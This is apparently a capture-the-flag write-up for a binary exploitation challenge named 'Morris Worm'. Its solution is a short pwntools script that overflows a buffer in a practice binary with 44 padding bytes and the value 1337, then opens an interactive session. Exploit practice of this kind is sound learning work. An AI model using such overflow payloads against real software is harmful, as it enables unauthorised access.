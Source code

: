 # Morris Worm
## Challenge


## Solution
```py
#!/usr/bin/env python3
from pwn import *

# Change this to remote if you want to run it on remote server
if args.REMOTE:
    r = remote('localhost', 1337) # change host and port
else:
    r = process('./pwn1')

PAYLOAD = b'A' * 44 + p32(1337)
r.recvuntil(b'?\n')
r.sendline(PAYLOAD + b'\x00')

r.interactive()
```

## Author
**Author**: [`@AlBovo`](https://github.com/AlBovo/) <br>
**Date**: 2024-07-19 <br>
**Category**: Binary Exploitation